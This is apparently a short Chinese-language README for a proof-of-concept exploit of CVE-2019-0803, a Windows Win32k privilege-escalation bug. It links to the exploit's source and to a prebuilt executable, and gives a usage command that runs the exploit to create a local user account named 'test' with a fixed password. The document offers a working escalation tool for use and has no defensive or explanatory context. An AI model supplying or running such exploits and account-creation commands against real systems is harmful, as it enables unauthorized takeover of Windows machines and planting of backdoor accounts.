

## CVE-2019-0803-Win32k Elevation of Privilege Poc  

CVE-2019-0803.exe Win32k漏洞提权工具  没有编译的，来自：`https://github.com/ExpLife0011/CVE-2019-0803`   

   

另外一个是K8写的成品EXE，提示:自行斟酌使用任何提权EXE：  

`https://github.com/k8gege/K8tools/raw/master/CVE-2019-0803.exe`

使用方法：`CVE-2019-0803.exe cmd "net user test test@321# /add"`

